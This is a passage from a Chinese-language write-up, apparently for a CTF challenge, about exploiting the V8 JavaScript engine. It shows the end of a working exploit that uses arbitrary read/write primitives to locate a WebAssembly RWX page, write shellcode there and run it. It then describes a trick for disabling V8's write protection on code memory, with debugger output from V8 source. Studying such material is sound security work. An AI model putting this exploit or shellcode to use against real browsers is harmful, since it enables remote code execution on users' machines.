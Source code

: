 ```javascript
    130, 128, 128, 128, 0, 1, 0, 4, 132, 128, 128, 128, 0, 1, 112, 0, 0, 5, 131,
    128, 128, 128, 0, 1, 0, 1, 6, 129, 128, 128, 128, 0, 0, 7, 145, 128, 128,
    128, 0, 2, 6, 109, 101, 109, 111, 114, 121, 2, 0, 4, 109, 97, 105, 110, 0,
    0, 10, 142, 128, 128, 128, 0, 1, 136, 128, 128, 128, 0, 0, 65, 239, 253,
    182, 245, 125, 11,
  ]);
  let wasm_module = new WebAssembly.Module(wasm_code);
  let wasm_instance = new WebAssembly.Instance(wasm_module);
  let func = wasm_instance.exports.main;
  let wasm_instance_addr = get_addr(wasm_instance);
  let func_addr = get_addr(func);
  // %DebugPrint(wasm_instance);
  // %DebugPrint(func);
  // %SystemBreak();

  let rwx_addr = limited_read(wasm_instance_addr + 0x68);
  helper.printhex(rwx_addr);
  // %SystemBreak();

  let shellcode = [
    0x10101010101b848n,
    0x68632eb848500101n,
    0x431480169722e6fn,
    0xf631d231e7894824n,
    0x50f583b6an,
  ];

  limited_write(buf_backing_store_addr, rwx_addr);
  for (let i = 0; i < shellcode.length; i++) {
    ab_helper.setBigInt64(i * 8, shellcode[i], true);
  }

  func();
};

exp();
```

### 利用 JIT 优化后的函数获得 RWX 内存

- [ref: Trick #6: Disabling W^X at Runtime](https://tiszka.com/blog/CVE_2021_21225_exploit.html)

> [!info] 
> 这是一个很有趣的技巧，虽然在最新版本控制新分配堆空间的 flag 位置已经不在 V8 堆上了，但也值得学习一下：

- 定位 `write_protect_code_memory_` 变量位置（在题目版本源码下）：

首先定位到设置该变量的代码位置，这个布尔值在 `/v8/new_v8/v8/src/heap/heap.h:2037` 中被声明为 false，在 `/v8/new_v8/v8/src/heap/heap.cc:5377` 中被使用，故可以把断点打在 `heap.cc:5377` 上：

```c
In file: /v8/new_v8/v8/src/heap/heap.cc:5377
   5372   if (FLAG_stress_scavenge > 0) {
   5373     stress_scavenge_observer_ = new StressScavengeObserver(this);
   5374     new_space()->AddAllocationObserver(stress_scavenge_observer_);
   5375   }
   5376
 ► 5377   write_protect_code_memory_ = FLAG_write_protect_code_memory;
   5378 }
   5379
   5380 void Heap::InitializeHashSeed() {
   5381   DCHECK(!deserialization_complete_);
   5382   uint64_t new_hash_seed;
```
